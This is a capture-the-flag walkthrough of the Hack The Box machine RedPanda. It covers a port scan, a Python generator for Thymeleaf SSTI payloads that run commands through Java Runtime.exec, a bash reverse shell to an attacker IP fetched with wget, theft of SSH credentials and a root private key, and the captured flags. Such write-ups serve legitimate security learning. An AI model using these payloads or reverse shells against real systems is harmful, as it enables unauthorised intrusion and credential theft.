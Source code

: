 ![RedPanda.PNG](/assets/Machines/Easy/RedPanda/RedPanda.png)

1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.11.170
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.11.170
```

**Output**
```bash
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
```

3. Visit the page
   
![Page.PNG](/assets/Machines/Easy/RedPanda/Page.PNG)


4. In this machine we can exploit ssti (https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/)


5. With the next script on Python we can get information about the machine.

```python
def injection(comm):
    cmd = comm
    build = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime>
    first_ascii = str(ord(comm[0]))
    build += ".exec(T(java.lang.Character).toString(" + first_ascii + ")"
    comm = comm[1:]

    for letter in comm:
        letter_ascii = str(ord(letter))
        build += ".concat(T(java.lang.Character).toString(" + letter_ascii +>

    build += ").getInputStream())}"
    return build


if __name__ == "__main__":
    user_input = input("To convert: ")
    print(injection(user_input))
```

6. Put the command you can run and search in the **RedPanda**
   
```bash
┌──(root㉿est)-[/home/…/Desktop/Machines/Easy/RedPanda]
└─| python3 convert_to_java.py 
To convert: cat /etc/passwd
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

Next, search and look

![Example.PNG](/assets/Machines/Easy/RedPanda/Example.PNG)

7. Now, download on the machine a revese shell to next execute and obtaine a reverse shell.

7.1 Create reverse shell on https://www.revshells.com/ and put into a file
```bash
┌──(root㉿est)-[/home/…/Desktop/Machines/Easy/RedPanda]
└─| cat reverse.sh 
#!/bin/bash
sh -i >& /dev/tcp/10.10.15.6/4949 0>&1
```
---
7.2 Use python to create a server and use wget to download *reverse.sh** on machine
```bash
┌──(root㉿est)-[/home/…/Desktop/Machines/Easy/RedPanda]
└─| python3 convert_to_java.py 
To convert: wget http://10.10.15.6:4545/reverse.sh
```
> Put the output on **RedPanda search** 
---
```bash
┌──(root㉿est)-[/home/…/Desktop/Machines/Easy/RedPanda]
└─| python3 convert_to_java.py 
To convert: chmod u+x reverse.sh
```
> Put the output on **RedPanda search** 
---
Listen in port of you create a reverse shell
```bash
┌──(root㉿est)-[/home/…/Desktop/Machines/Easy/RedPanda]
└─| nc -lvnp 4949
```

---
```bash
┌──(root㉿est)-[/home/…/Desktop/Machines/Easy/RedPanda]
└─| python3 convert_to_java.py 
To convert: chmod u+x reverse.sh
```
> Put the output on **RedPanda search** 
---
Now, you obtain reverse shell and spawn a shell with python and pty
```bash
┌──(root㉿est)-[/home/kali]
└─| nc -lvnp 4949
listening on [any] 4949 ...
connect to [10.10.15.6] from (UNKNOWN) [10.10.11.170] 52696
sh: 0: can't access tty; job control turned off
$ which python3
/usr/bin/python3
$ which gcc
$ python3 -c "import pty; pty.spawn('/bin/bash')"
```

8. Cat the **user flag**

```bash
woodenk@redpanda:/$ cd home/woodenk/
woodenk@redpanda:~$ cat user.txt 
edcd98fa4b7c41d172093fa042edd753 
```

9. In the next path, cat the file **MainController.java** and search the password

```bash
woodenk@redpanda:/opt/panda_search/src/main/java/com/panda_search/htb/panda_search$ cat MainController.java 
```


![Password](/assets/Machines/Easy/RedPanda/Password.PNG)

10. Connect to ssh with credentials `woodenk` and `RedPandazRule`
```bash
┌──(root㉿est)-[/home/…/Desktop/Machines/Easy/RedPanda]
└─| ssh woodenk@10.10.11.170
woodenk@10.10.11.170's password: 
woodenk@redpanda:~$ 
```

11. In the path `/tmp` cat the file gg_creds.xml

```bash
woodenk@redpanda:/tmp$ cat gg_creds.xml
```

**Output**
```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo>
<credits>
  <author>gg</author>
  <image>
    <uri>/img/../../../../../../../tmp/image_exp.jpg</uri>
    <views>2</views>
    <foo>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</foo>
  </image>
  <totalviews>5</totalviews>
</credits>
```


12. Put the openssh key on a file to connect with ssh how root and put 600 permission
```bash
┌──(root㉿est)-[/home/…/Desktop/Machines/Easy/RedPanda]
└─| cat key                
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----
                                                                             
┌──(root㉿est)-[/home/…/Desktop/Machines/Easy/RedPanda]
└─| chmod 600 key 
```

13. Connect to ssh
```bash
┌──(root㉿est)-[/home/…/Desktop/Machines/Easy/RedPanda]
└─| ssh root@10.10.11.170 -i key
```

**Output**
```bash
root@redpanda:~|
```

14. Cat the **root flag**
```bash
root@redpanda:~| cat root.txt 
f468974d78897cb2dcb169d91e5e2f79
```